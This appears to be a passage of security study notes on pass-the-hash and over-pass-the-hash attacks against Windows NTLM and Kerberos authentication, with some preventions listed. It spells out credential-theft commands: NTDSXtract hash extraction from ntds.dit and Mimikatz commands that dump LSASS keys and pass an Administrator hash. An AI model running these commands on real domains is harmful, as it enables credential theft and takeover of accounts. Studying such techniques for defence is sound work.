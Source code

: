 

- In typical scenario:
  - User type the password
  - LSASS hash the password (LM, NTLM) and send it to service for authentication
- In attack scenario:
  - Attacker pass the hash (LM, NTML) itself to LSASS which is sent to service
- Preventions
  - Disable NTML hashes
  - "Protected Users" group
  - Do not leave lot of NTLM authentication footprint in eventless

### Over Pass the Hash / Pass the Key

![image-20190603075915450](_assets/image-20190603075915450.png)> Ref: [https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf](https://www.blackhat.com/docs/us-14/materials/us-14-Duckwall-Abusing-Microsoft-Kerberos-Sorry-You-Guys-Don't-Get-It.pdf)


- If NTLM hash is available, encrypt timestamp with hash and sent it to **KDC** in **AS-REQ** to get a **TGT**
- Keys are in:
  - Client LSASS memory
    - Prevented by "Protected Users" group
  - Active Directory
    - NTDS.dit and SYSTEM hive
    - Offline
      - [Tool] NTDSXtract
      - `python DSUser.py ntds.dit.export/datatable.4 ntds.dit.export/link_table.7 ./work -name Administrator --syshive SYSTEM --supplcreds --passwordhashes --lmoutfile ./lm --ntoutfile ./nt --pwdformat john`
      - `privilege::debug    sekurlsa::ekeys`
    - Online
      - `privilege::debug    lsadump::lsa /inject /name:Administrator `
- Keys are in:
  - DES
  - RC4 - Non domain salted NTML hash
  - AES128 AES256 keys (NT6+)
    - Use PBKDF2
    - Salted
    - 4096 iterations
    - Cracking is difficult
- Over pass the hash
  - `privilege::debug    sekurlsa::pth /user:Administrator /domain:<DomainName> /ntlm:<Hash>`
- References
  - [http://www.janua.fr/active-directory-vulnerability-disclosure-weak-encryption-enables-attacker-to-change-victims-password-without-being-logged/](http://www.janua.fr/active-directory-vulnerability-disclosure-weak-encryption-enables-attacker-to-change-victims-password-without-being-logged/)
- Mimikatz